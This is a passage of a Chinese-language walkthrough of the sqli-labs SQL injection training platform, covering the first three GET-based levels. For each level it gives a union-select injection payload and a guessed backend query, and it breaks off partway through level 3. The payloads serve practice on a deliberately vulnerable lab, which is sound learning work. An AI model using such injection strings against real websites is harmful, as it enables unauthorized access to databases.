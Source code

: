 <center>sqli-labs</center>

此章主要讲述：在测试平台`sqli-labs`中通关的详情。和每关的收获

> `sqli-labs`是一个sql注入的测试平台，需要自己来搭建网站，就像是dvwa一样的

题目前有`*`的表示没做起。

两个`**`表示看的答案





### get基本注入



#### 1. 	union注入

最基本的sql注入，通过`union`注入的方式可以轻易的绕过

```
?id=-1' union select 1,2,3%23
```





猜测后端sql语句为

```
select username,password from users where id='前端传入数据' limit 0,1;
```



#### 2. 

在最初的基础上：没有用引号对变量进行选取。测试过程中，使用引号的话。将会引起报错。和上面基本类似，直接注入就行了。（ps.不用引号）

```
?id=-1 union select 1,2,3%23
```





猜测后端sql语句为：

```
select username,passwd from users where id = 前端传入的数据 limit 0,1;
```



#### 3.

在1的基础上加上了小括号对前端传入的数据进行包裹

```
?id=-1') union select 1,2,3 %23
```



猜测后端sql语句为：
